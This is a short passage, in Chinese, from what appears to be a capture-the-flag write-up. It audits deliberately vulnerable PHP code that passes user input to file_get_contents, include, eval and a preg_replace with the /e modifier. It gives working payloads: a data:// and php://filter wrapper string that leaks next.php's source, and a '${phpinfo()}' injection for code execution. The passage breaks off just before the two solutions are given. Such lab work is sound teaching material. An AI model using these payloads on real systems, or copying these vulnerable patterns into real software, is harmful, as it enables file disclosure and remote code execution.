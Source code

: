 审计：

```php
<?php
error_reporting(0);
$text = $_GET["text"];
$file = $_GET["file"];
if(isset($text)&&(file_get_contents($text,'r')==="I have a dream")){
    echo "<br><h1>".file_get_contents($text,'r')."</h1></br>";
    if(preg_match("/flag/",$file)){
        die("Not now!");
    }

    include($file);  //next.php
    
}
else{
    highlight_file(__FILE__);
}
?>
```

构造payload：`?text=data://text/plain,I%20have%20a%20dream&file=php://filter/read=convert.base64-encode/resource=next.php`读next.php

```php
<?php
$id = $_GET['id'];
$_SESSION['id'] = $id;

function complex($re, $str) {
    return preg_replace(
        '/(' . $re . ')/ei',
        'strtolower("\\1")',
        $str
    );
}


foreach($_GET as $re => $str) {
    echo complex($re, $str). "\n";
}

function getFlag(){
	@eval($_GET['cmd']);
}

```

存在preg_replace代码执行，但是如果GET传`.*=xxx`，会出问题，成为\_*=xxx

所以有这样的payload：`\S*=${phpinfo()}`

接下来就有两种解法：
